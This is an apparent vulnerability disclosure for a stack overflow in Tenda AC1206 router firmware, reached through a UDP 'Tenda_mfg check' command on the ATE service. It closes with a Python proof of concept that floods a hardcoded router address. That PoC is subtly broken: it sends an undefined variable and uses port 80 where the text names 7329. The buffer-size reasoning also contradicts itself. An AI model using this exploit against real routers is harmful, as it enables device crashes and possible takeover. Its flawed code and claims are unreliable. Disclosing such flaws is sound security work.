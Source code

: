 # Description



Tenda AC1206 `ate_Tenda_mfg_check_usb3` and `ate_Tenda_mfg_check_usb` has stack overflow vulnerability

[firmware download](https://static.tenda.com.cn/tdcweb/download/uploadfile/AC1206/US_AC1206V1.0RTL_V15.03.06.23_multi_TD01.zip)

# Affected version

AC series (AC1206, AC7, AC23 have been submitted separately)

11AC Routers-Tenda US (tendacn.com)

G series

Wired Enterprise Router-Tenda US (tendacn.com)

W series

In-wall AP-Tenda US (tendacn.com)

I series

Ceiling AP-Tenda US (tendacn.com)

O series

Outdoor CPE-Tenda US (tendacn.com)

A series

Range Extenders-Tenda US (tendacn.com)

VD series

xDSL Modem Routers-Tenda US (tendacn.com)


# details



When accessing `url:/goform/ate`, `TendaAte` will be called

![](w01.png)



The `TendaAte` function creates a thread and calls `ate_main_handle`, but, the recv_buf stack var size is ***4096***,  and recv from socket most ***0x1000***

![](000.png)

![](001.png)

In `ate_main_handle`, port number `7329` is opened, `udp` messages are received and processed, and the transmission message format is `command args`

The message is further processed by `ate_cmd_process`

![](01.png)

When `command` is `Tenda_mfg`and `arg` is `check` or `check USB3.0`, the `ate_Tenda_mfg_check_usb ` or `ate_Tenda_mfg_check_usb3` function is called, the both functions are similar, like:

![](02.png)

![](03.png)

![](04.png)



in `readUsb` function,  the variale `mntFileName` size is ***512*** char, but , there use `sprintf` function to format the two variables into `mntFileName`, there is no ckeck , And will cause stack overflow. maybe cause RCE, furtherly

![](05.png)



![](06.png)


find that, the child thread `300` crash
![](07.png)

poc:

```python
import socket
import time
import os

os.system('curl http://172.30.214.100/goform/ate')

time.sleep(3)

sock = socket.socket(socket.AF_INET, socket.SOCK_DGRAM)

server_address = ('172.30.214.100', 80)
command = b's' * 999
message = b'Tenda_mfg check'+ chars

try:
    print(f'Sending: {message}')
    sock.sendto(message, server_address)

    data, server = sock.recvfrom(4096)
    print(f'Received: {data}')

finally:

    sock.close()
```



